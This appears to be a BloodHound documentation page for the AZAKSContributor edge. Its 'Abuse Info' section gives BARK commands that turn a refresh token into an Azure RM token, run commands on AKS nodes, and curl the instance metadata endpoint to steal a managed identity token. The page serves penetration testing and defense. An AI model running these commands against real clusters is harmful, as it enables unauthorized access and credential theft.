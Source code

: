 ---
title: AZAKSContributor
description: "The Azure Kubernetes Service Contributor role grants full control of the target Azure Kubernetes Service Managed Cluster."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


 This includes the ability to remotely fetch administrator credentials for the cluster as well as the ability to execute arbitrary commands on compute nodes associated with the AKS Managed Cluster.

## Abuse Info

You can use BARK’s Invoke-AzureRMAKSRunCommand function to execute commands on compute nodes associated with the target AKS Managed Cluster.

This function requires you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the cluster. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s Invoke-AzureRMAKSRunCommand function to execute a command against the target AKS Managed Cluster. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command "whoami"
```
If the AKS Cluster or its associated Virtual Machine Scale Sets have managed identity assignments, you can use BARK’s Invoke-AzureRMAKSRunCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command \\'curl -i -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com/&api-version=2019-08-01"\\'
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/](https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/)
